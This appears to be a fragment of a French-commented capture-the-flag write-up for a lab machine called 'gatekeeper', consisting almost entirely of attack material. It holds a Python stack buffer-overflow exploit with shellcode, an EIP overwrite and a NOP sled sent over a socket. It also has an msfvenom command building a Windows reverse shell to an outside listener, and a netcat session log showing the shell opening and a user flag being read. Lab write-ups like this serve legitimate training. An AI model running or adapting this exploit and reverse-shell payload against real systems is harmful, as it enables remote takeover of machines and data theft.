```py
shellcode += b"\x3c\x0d\x84\x21\x69\xe3\xdd\xa7\x87\x5a\x74\xd5\x55"
shellcode += b"\x3a\xbf\x5d\x82\xff\x3e\x5c\x47\xbb\x64\x4e\x91\x44"
shellcode += b"\x21\x3a\x4d\x13\xff\x94\x2b\xcd\xb1\x4e\xe2\xa2\x1b"
shellcode += b"\x06\x73\x89\x9b\x50\x7c\xc4\x6d\xbc\xcd\xb1\x2b\xc3"
shellcode += b"\xe2\x55\xbc\xbc\x1e\xc6\x43\x17\x9b\xf6\x09\x35\x8a"
shellcode += b"\x9e\xd7\xac\x8e\xc2\xe7\x1b\xcc\xfa\x6b\xa9\xad\xf8"
shellcode += b"\x74\xd8\xa8\x45\x33\x31\xc1\xd6\xd6\x35\x76\xd6\xf2"


buffer = "A"*146
buffer += "\xc3\x14\x04\x08" # 0x080414c3 => EIP
buffer += "\x90"*10 # Ajout des NOP au cas ou on tombe pas pile poil sur le bon offset
buffer += shellcode

try:
    print '[+] Envoi de %s octets' % len(buffer)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c = s.connect((ip, port))
    s.send(buffer + "\r\n")
    r = s.recv(1024)
    print(r)
except:
    print("[+] Erreur:", sys.exc_info()[0])
    sys.exit(0)
finally:
    s.close()
```

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.11.184 LPORT=5555 -f py -b "\x00\x0a" -n 10 -v shellcode
```



```
kali@kali:~$ nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.9.11.184] from (UNKNOWN) [10.10.246.212] 49202
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>whoami
whoami
gatekeeper\natbat

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  09:24 PM    <DIR>          .
05/14/2020  09:24 PM    <DIR>          ..
04/21/2020  05:00 PM             1,197 Firefox.lnk
04/20/2020  01:27 AM            13,312 gatekeeper.exe
04/21/2020  09:53 PM               135 gatekeeperstart.bat
05/14/2020  09:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  15,850,921,984 bytes free

C:\Users\natbat\Desktop>type user.txt.txt
type user.txt.txt
{H4lf_W4y_Th3r3}
```